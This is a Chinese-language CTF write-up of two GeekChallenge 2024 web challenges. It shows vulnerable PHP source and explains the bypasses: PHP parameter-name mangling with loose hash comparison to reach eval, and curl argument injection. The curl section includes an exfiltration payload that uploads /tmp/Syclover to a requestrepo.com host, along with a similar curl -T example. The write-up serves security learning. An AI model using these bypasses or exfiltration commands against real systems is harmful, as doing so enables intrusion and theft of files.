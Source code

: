 # 2024 WP

## 1. web-rce-me

### 1.1 源码

```php
<?php
header("Content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);

# Can you RCE me?


if (!is_array($_POST["start"])) {
    if (!preg_match("/start.*now/is", $_POST["start"])) {
        if (strpos($_POST["start"], "start now") === false) {
            die("Well, you haven't started.<br>");
        }
    }
}

echo "Welcome to GeekChallenge2024!<br>";

if (
    sha1((string) $_POST["__2024.geekchallenge.ctf"]) == md5("Geekchallenge2024_bmKtL") &&
    (string) $_POST["__2024.geekchallenge.ctf"] != "Geekchallenge2024_bmKtL" &&
    is_numeric(intval($_POST["__2024.geekchallenge.ctf"]))
) {
    echo "You took the first step!<br>";

    foreach ($_GET as $key => $value) {
        $$key = $value;
    }

    if (intval($year) < 2024 && intval($year + 1) > 2025) {
        echo "Well, I know the year is 2024<br>";

        if (preg_match("/.+?rce/ism", $purpose)) {
            die("nonono");
        }

        if (stripos($purpose, "rce") === false) {
            die("nonononono");
        }
        echo "Get the flag now!<br>";
        eval($GLOBALS['code']);
        
        

        
    } else {
        echo "It is not enough to stop you!<br>";
    }
} else {
    echo "It is so easy, do you know sha1 and md5?<br>";
}
?>
```

### 1.2 WP

- **源码分析**

```php
preg_match("/start.*now/is", $_POST["start"]) //匹配字符串，其内必须以 'start 任意除\n等符号的字符串 now' 构成
```

```php
sha1((string) $_POST["__2024.geekchallenge.ctf"]) == md5("Geekchallenge2024_bmKtL") &&//第一个参数的sha1值等于第二个参数的MD5值
(string) $_POST["__2024.geekchallenge.ctf"] != (string) $_POST["Geekchallenge2024_bmKtL"] &&//第一个参数不等于第二个参数
is_numeric(intval($_POST["__2024.geekchallenge.ctf"]))//不知道意义
```

- **绕过点**

  - php 上传非法参数绕过

    POST上传的参数中含非法字符  `.` ，利用php特性：**如果传入 `[` 它被转化为 `_` 之后，后面的字符就会被保留下来不会被替换** 。

    ```
    当PHP版本小于8时，如果参数中出现中括号[，中括号会被转换成下划线_，但是会出现转换错误导致接下来如果该参数名中还有非法字符并不会继续转换成下划线_，也就是说如果中括号[出现在前面，那么中括号[还是会被转换成下划线_，但是因为出错导致接下来的非法字符并不会被转换成下划线_
    ```

    **注：若开头为  `[` 字符，php会认为是数组，但完整参数没有 `]` ，则php会认为是无效的数组名，从而导致整个字段被忽略或解析错误**

    即将第二个下划线替换为 `[` 时，后续非法字符不会处理 

  - sha1加密值 == MD5加密值
  
    非严格比较，使用加密后以 `0e` 开头的字符绕过

## 2.web-ctf_curl

### 2.1源码

```php
<?php
highlight_file('index.php');
// curl your domain
// flag is in /tmp/Syclover

if (isset($_GET['addr'])) {
    $address = $_GET['addr'];
    if(!preg_match("/;|f|:|\||\&|!|>|<|`|\(|{|\?|\n|\r/i", $address)){
        $result = system("curl ".$address."> /dev/null");
    } else {
        echo "Hacker!!!";
    }
}
?>
```

### 2.2 WP

- **源码分析**

  ```php
  preg_match("/;|f|:|\||\&|!|>|<|`|\(|{|\?|\n|\r/i", $address)
  ```

  命令过滤很强，无法实现命令注入

- **绕过点**

  ```php
  $result = system("curl ".$address."> /dev/null");
  ```

  注意到 `curl` 命令，结果虽然放入 /dev/null ，但可通过可控服务器带出数据

  **数据泄露的完整流程：**

  1. 命令执行阶段

  ```
  curl example.com -T /tmp/flag
  -T 参数：触发 HTTP PUT 方法，将文件内容作为请求体发送
  
  文件读取：curl 读取 /tmp/flag 的完整内容到内存
  
  连接建立：与恶意服务器 example.com 建立 TCP 连接
  ```

  2. 网络传输阶段

  ```
  PUT / HTTP/1.1
  Host: example.com
  User-Agent: curl/7.68.0
  Content-Length: 1024
  [空行]
  [文件/tmp/flag的完整内容]
  ```

  - 明文传输：默认使用 HTTP（未加密），文件内容在网络上明文传输


  - 中间人可嗅探：任何网络路径上的设备都可能截获数据

- **具体绕过**

  利用 `https://requestrepo.com/#/requests` 外带数据

  payload：

  ```
  ?addr=xxxxxx.requestrepo.com -T /tmp/Syclover
  ```

  在`https://requestrepo.com/#/requests` 中查看报文中的数据

  ```
  GEEK{de5ef141-0251-4ee6-8cba-d111286f8a33}
  ```

  

# 2023 WP

